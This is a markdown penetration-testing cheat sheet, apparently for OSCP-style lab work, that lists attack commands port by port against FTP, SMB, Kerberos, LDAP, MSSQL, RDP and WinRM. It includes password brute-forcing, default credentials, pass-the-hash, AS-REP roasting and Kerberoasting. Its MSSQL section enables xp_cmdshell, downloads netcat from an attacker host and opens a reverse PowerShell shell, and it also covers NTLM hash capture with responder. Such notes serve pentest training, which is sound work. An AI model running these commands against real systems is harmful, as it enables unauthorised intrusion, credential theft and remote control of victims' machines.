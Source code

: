 ## Enumeration Checklist

# set your variables

`target=`<br>
`user=`<br>
`pass=`<br>
`ip=`<br>
`domain=`<br>

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns<br>

admin/admin<br>
root/root<br>
password/password<br>
username/username<br>


# 53 DNS

`dig @$ip version.bind CHAOS TXT`<br>
`dig axfr @$ip $domain`<br>
`dnsenum $domain`<br>

# 135 RCP

`rpcclient -U '' -N $ip`<br>
`rpcclient -U '$user%$pass' $ip` <br>

- `> enumdomusers      #check the users on the DC`<br>
- `> queryuser <username>  #query the details of the user`<br>
- `> querydispinfo`<br>

`nmblookup -A $ip`<br>

# 445 SMB

- **Without Pass**<br>
`enum4linux -a $ip`<br>
`impacket-lookupsid $domain/$user@$domain -no-pass`<br>
`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`<br>
`smbclient -N -L //[ip]`<br>
`smbclient //[ip]/[share] -N   #Enumerate Files`<br>


- **With Pass**
`lookupsid.py  $domain$user:$pass@$domain`<br>
`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2<br>
> [!IMPORTANT]
> This oneliner will create a file with all the domain users

`psexec.py -hashes  :<ntlm hash>    $user@$ip`<br>
`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`<br>
`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`<br>
`netexec smb [host/ip] -u [user] -p [pass] --shares`<br>
`netexec smb [host/ip] -u guest -p '' --shares`<br>
`smbclient //[ip]/[share] -U [username] [password]`<br>
`netexec smb -u [user] -p [pass] -M spider_plus`<br>
`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`<br>
`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`<br>


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`<br>
`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`<br>
`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`<br>
`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`<br>
`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`<br>
`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`<br>


# 389 LDAP

**Without Pass**<br>
`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`<br>
`ldapsearch -x -H ldap://$ip -s base namingcontexts`<br>
`impacket-lookupsid '$domain/guest'@$domain -no-pass`<br>

**With Pass**<br>
`lookupsid.py  $domain/$user:$pass@$domain`<br>
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`<br>

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`<br>
`neo4j console'<br>
> [!IMPORTANT]<br>
> config file; /usr/share/neo4j/conf<br>
`./Bloodhound  --no-sandbox`<br>


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`  #Windows login<br>
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`<br>

`SELECT @@version   #Current MSSQL Version`<br>
`SELECT DB_NAME()   #Current Database`<br>
`SELECT name FROM sys.databases;  #show DBs`<br>	
`enum_db            #show DBs`<br>
`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`<br>

**cmd command**<br>
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami /priv'`<br>


**powershell**<br>
`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`<br>
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`<br>
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`<br>


**capture**<br>
`xp_dirtree \\192.168.1.210\shared`<br>
`responder -I tun01`
> [!IMPORTANT]
> When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

**impersonate**<br>
`enum_impersonate'<br>  > impersonate`<br>
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`<br>
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`<br>


**MSSQL Cheetsheet**<br>
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
